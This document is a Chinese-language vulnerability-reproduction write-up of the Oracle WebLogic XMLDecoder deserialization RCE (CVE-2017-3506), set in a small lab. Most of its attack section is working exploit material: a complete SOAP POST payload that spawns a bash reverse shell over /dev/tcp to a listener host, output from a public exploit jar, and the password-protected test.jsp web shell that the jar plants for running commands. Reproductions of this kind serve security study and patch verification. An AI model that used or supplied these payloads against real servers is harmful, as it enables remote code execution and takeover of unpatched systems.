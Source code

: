 ```yaml
---
title: xml decode反序列化RCE——CVE-2017-3506
date: 2022-1-10 12:21:30
updated: 2022-1-10 12:21:30
categories: 漏洞复现
tags:
urlname:
keywords: Java反序列化,weblogic
---
```


### xml decode反序列化RCE——**CVE-2017-3506**

#### 影响版本：

Oracle WebLogic Server10.3.6.0.0 版本

Oracle WebLogic Server12.1.3.0.0 版本

Oracle WebLogic Server12.2.1.1.0 版本

Oracle WebLogic Server12.2.1.2.0 版本

#### 环境搭建：

靶机：CentOS7（192.168.2.101:7001）

监听机器：Windows7（192.168.2.104:1234）

![img](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220108101419.png)



#### 漏洞利用：

##### A.数据包方式

访问URL：`http://ip:7001/wls-wsat/CoordinatorPortType11`

![img](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220110094659.png)

访问这个目录,利用burp抓包,修改请求为post,content-type为text/xml,构造如下xml数据并发送

```
 POST /wls-wsat/CoordinatorPortType HTTP/1.1
 Host: 192.168.2.101:7001
 Accept-Encoding: gzip, deflate
 Accept: */*
 Accept-Language: en
 User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
 Connection: close
 Content-Type: text/xml
 Content-Length: 642
 
 
 <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
 <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
 <java version="1.4.0" class="java.beans.XMLDecoder">
 <void class="java.lang.ProcessBuilder">
 <array class="java.lang.String" length="3">
 <void index="0">
 <string>/bin/bash</string>
 </void>
 <void index="1">
 <string>-c</string>
 </void>
 <void index="2">
 <string>bash -i &gt;&amp; /dev/tcp/192.168.2.104/1234 0&gt;&amp;1</string>
 </void>
 </array>
 <void method="start"/></void>
 </java>
 </work:WorkContext>
 </soapenv:Header>
 <soapenv:Body/>
 </soapenv:Envelope>
```

![img](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220110115937.png)

反弹shell成功

![img](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220110120007.png)



##### B.工具利用：

WebLogic Wls-wsat_RCE:

[XHSecurity/Oracle-WebLogic-CVE-2017-10271: Oracle-WebLogic-CVE-2017-10271 (github.com)](https://github.com/XHSecurity/Oracle-WebLogic-CVE-2017-10271)

```
 C:\Users\HUMMER\Desktop\Oracle-WebLogic-CVE-2017-10271-master\Oracle-WebLogic-CV
 E-2017-10271-master>java -jar WebLogic_Wls-Wsat_RCE_Exp.jar http://192.168.2.101
 :7001 test.jsp
 
 [*] Starting exploit...
 [*] Sending payloads...
 [*] Payloads sent...
 [*] Opening shell...
 [*] pwned! Go ahead...
 
 [+] http://192.168.2.101:7001/bea_wls_internal/test.jsp?password=secfree&command
 =whoami
```



test.jsp在目标上是不存在的，我们执行命令的时候会给我们创建一个可以执行命令的脚本，也就是最下面的

```
 http://192.168.2.101:7001/bea_wls_internal/test.jsp?password=secfree&command
 =ls
```

![img](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220110121612.png)

命令执行成功！！